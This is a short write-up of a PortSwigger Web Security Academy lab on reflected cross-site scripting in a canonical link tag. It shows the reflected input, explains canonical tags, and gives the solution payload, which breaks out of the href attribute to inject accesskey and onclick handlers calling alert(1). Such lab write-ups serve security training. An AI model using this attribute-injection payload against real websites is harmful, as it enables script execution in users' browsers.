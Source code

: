 # [Lab: Reflected XSS in canonical link tag](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag)

## Lab

This lab reflects user input in a canonical link tag and escapes angle brackets.

To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.

To assist with your exploit, you can assume that the simulated user will press the following key combinations:

- ALT+SHIFT+X
- CTRL+ALT+X
- Alt+X
Please note that the intended solution to this lab is only possible in Chrome.

## Analysis

```http
GET /?test HTTP/1.1
```

observer result:

```html
<link rel="canonical" href='https://id.web-security-academy.net/?test'/>
```

## Canonical

A rel=”canonical” link tag (canonical tag) is a tag used in the head section of HTML to indicate that a page overlaps another page. To indicate when a page is a duplicate of another page, you can use a `<link>` tag in the head section of your HTML.

## Solutions

```http
GET /?'accesskey%3d'x'onclick%3d'alert(1) HTTP/1.1
```

result:

```html
<link rel="canonical" href='https://id.web-security-academy.net/?'accesskey='x'onclick='alert(1)'/>
```

on Windows, press alt + shift + x combination, alert popup
